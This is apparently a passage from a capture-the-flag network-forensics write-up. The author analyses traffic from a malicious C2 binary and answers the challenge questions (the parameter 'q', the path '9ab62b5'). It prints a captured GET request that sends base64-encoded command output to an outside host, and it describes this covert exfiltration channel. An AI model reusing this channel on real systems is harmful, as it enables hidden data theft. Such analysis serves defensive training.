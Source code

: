 There are **GET** requests to **167.71.222.162**. These requests are trying to make queries encoded in **base64** at a directory called **9ab62b5.** These queries are using **GET** requests to send information to the **C2** by enclosing the **base64** encoded strings in segments within the queries themselves.

A pretty clever way to send data by acting like it’s trying to receive information. Using the request itself.

“I want a cup of milk”, also means “I am letting you know about the milk I want”. To receive we must also send.

**\= base64**

---

> ### The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?

I referred to these as queries, partly because if we inspect one of the packets:

```yaml
Frame 5566: 264 bytes on wire (2112 bits), 264 bytes captured (2112 bits) on interface \Device\NPF_{79F1317E-A1C6-4B81-B4C8-AC13A41243C9}, id 0
Ethernet II, Src: VMware_a3:cb:4e (00:0c:29:a3:cb:4e), Dst: zte_22:ff:de (98:00:6a:22:ff:de)
Internet Protocol Version 4, Src: 192.168.254.107, Dst: 167.71.222.162
Transmission Control Protocol, Src Port: 51890, Dst Port: 80, Seq: 1, Ack: 1, Len: 210
Hypertext Transfer Protocol
    GET /9ab62b5?q=cHdkIC0gDQpQYXRoICAgICAgICAgICAgICAgDQotLS0tICAgICAgICAgICAgICAgDQpDOlxXaW5kb3dzXHN5c3RlbTMyDQoNCg0K HTTP/1.1\r\n
    Host: resolvecyber.xyz\r\n
    Connection: Keep-Alive\r\n
    user-agent: Nim httpclient/1.6.6\r\n
    \r\n
    [Full request URI: http://resolvecyber.xyz/9ab62b5?q=cHdkIC0gDQpQYXRoICAgICAgICAgICAgICAgDQotLS0tICAgICAgICAgICAgICAgDQpDOlxXaW5kb3dzXHN5c3RlbTMyDQoNCg0K]
    [HTTP request 1/1]
    [Response in frame: 5569]
```

We see the **GET** request, the directory **/9ab62b5** and **?q=**.

**q** is the variable that holds the base64 encoded string.

**\= q**

---

> ### The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?

We looked at the **GET** request, the **directory**/**URL** and the **q** variable.

We know it’s under the **/9ab62b5 URL**

**\= 9ab62b5**

---

> ### What is the HTTP method used by the binary?
